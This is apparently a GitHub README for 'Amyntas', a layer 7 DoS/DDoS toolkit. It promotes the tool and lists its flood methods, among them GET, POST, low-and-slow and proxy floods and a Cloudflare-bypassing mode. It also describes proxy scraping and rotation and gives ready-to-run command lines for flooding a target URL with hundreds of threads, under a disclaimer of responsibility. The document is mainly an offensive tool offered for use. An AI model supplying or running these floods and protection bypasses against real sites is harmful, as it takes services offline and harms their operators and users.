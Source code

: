 ## READ THIS FIRST
I've started working on a new tool, called [Cerberus](https://github.com/Nexuzzzz/Cerberus), its better than Amyntas and will have more frequent updates <br>
This tool will remain public, but i will <strong>NOT</strong> release any more updates

## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <br>
Also, for the `BYPASS` attack to work on <strong>\*nix</strong> you need to replace the `.exe` executable with the ELF binary.

--- 

### About
Amyntas is a layer 7 DoS/DDoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (method which uses browser emulation to get a cookie which will be used to bypass services like Cloudflare)
- `PROXY` (GET flood which hides its IP using a specified proxy list)

---

### Features
1. Proxy scraper & checker
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxy aswell `--rotate-proxy <file with proxies>`)

---

### Known bugs/problems
1. None ATM :3

---

### To Do list
1. More methods
2. More documentation
3. Better exception handling
4. Maybe colors? lol
5. Better debugging (it's shit atm)

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://yandex.ru)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-rt, --rotate-proxies                  Wether we should rotate proxies (use with `--proxy-file`)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its randomly chosen
-ref REFERER, --referer REFERER        Referer to use when attacking, else its randomly chosen
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info useful for debugging
-bc, --bypass-cache                    Try to bypass any caching systems to ensure we hit the main site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
--http-version HTTP_VERSION            Set the HTTP protocol version (default: 1.1)
--scrape-proxies                       Wether to scrape a list of proxies first (set the type using `--proxy-type`)
--check-proxies FILE_LOCATION          Specify a file with proxies to check (set type using `--proxy-type`)
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified PROXY/GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds:
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40 -m PROXY
```

Raw GET flood, using HTTP protocol version 430 with 999 threads for 999 seconds:
```
python3 amyntas.py --http-version 430 -m GET -w 999 -d 999 -t https://target.com:420
```

GET flood that bypasses Cloudflare's UAM mode:
```
python3 amyntas.py -t https://target.com -w 200 -d 100 -m BYPASS --proxy-file socks5.txt
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
ssl
```

---

### Images
<p>3.8k GET flood using 2300 threads</p>

![image](https://user-images.githubusercontent.com/78029616/164300794-c4b850ba-37d0-41e0-a62f-53f7578ff731.png)
